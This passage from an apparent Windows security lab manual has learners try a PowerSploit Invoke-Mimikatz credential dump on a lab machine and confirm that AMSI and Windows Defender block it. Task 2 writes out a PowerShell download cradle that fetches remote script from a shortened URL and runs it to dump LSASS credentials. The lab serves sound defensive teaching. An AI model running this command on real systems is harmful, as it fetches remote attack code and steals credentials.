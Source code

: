 3.   Sign out from LON-CL1.


#### Task 2: Attempt a Windows PowerShell exploit on a Window 10 Professional computer

  > **Note:**  You will start by attempting an exploit that employs the PowerSploit (PowerShell Post-Exploitation Framework) functionality to run the **Invoke-Mimikatz** cmdlet on a Windows 10 computer. The PowerSploit module containing this cmdlet is loaded directly into memory by taking advantage of download cradle. **Invoke-Mimikatz**, in turn, takes advantage of **Invoke-ReflectivePEInjection** (which is also part of PowerSploit) in order to reflectively load Mimikatz directly into memory. Once successfully executed, Mimikatz allows an attacker to dump credentials from the Local Security Authority Subsystem Service (LSASS) on the computer targeted by the cmdlet. 

1.   Sign in to the LON-CL1 Windows 10 Professional lab virtual machine with the following credentials:

  -   USERNAME: **ADATUM\\Beth**
  -   PASSWORD: **Pa55w.rd**

2.   Click **Start**, in the **Start** menu, expand the **Windows Accessories** folder, and click **Internet Explorer**.
3.   Right-click **Start** and in the right-click menu, click **Windows PowerShell (Admin)**.
4.   When prompted, in the **User Account Control** dialog box, click **Yes**.
5.   From the **Administrator: Windows PowerShell** window, type and execute the following (F:\\LabFiles\\Scripts\\Lab1Ex2Task2-01.ps1):

```
IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds -ComputerName @('LON-CL1')
```

6.   Note the resulting error message. The attempt to download and execute malicious script is blocked by Windows Defender. To verify this, right-click **Start** and click **Event Viewer**.
7.   In the Event Viewer window, expand the **Applications and Services\\Microsoft\\Windows\\Windows Defender** folder and click the **Operational** log.
8.   In the list of events in the Windows Defender Operational log, locate the most recent event **ID 1116** with the **Warning** level and double-click it.
8.   On the **General** tab of the event properties, scroll down through its description and note that the **Detection Source** is set to **AMSI**.



#### Task 3: Attempt a remote Windows PowerShell exploit on a Window Server 2016 computer

  > **Note:**  Now you will attempt the same exploit that employs the PowerSploit (PowerShell Post-Exploitation Framework) functionality to run the **Invoke-Mimikatz** cmdlet on a remote Windows Server 2016 computer. **Invoke-Mimikatz** supports targeting remote computers via Windows PowerShell Remoting.

1.   Sign in to the LON-SVR1 Windows Server 2016 lab virtual machine with the following credentials:

  -   USERNAME: **ADATUM\\Administrator**
  -   PASSWORD: **Pa55w.rd**
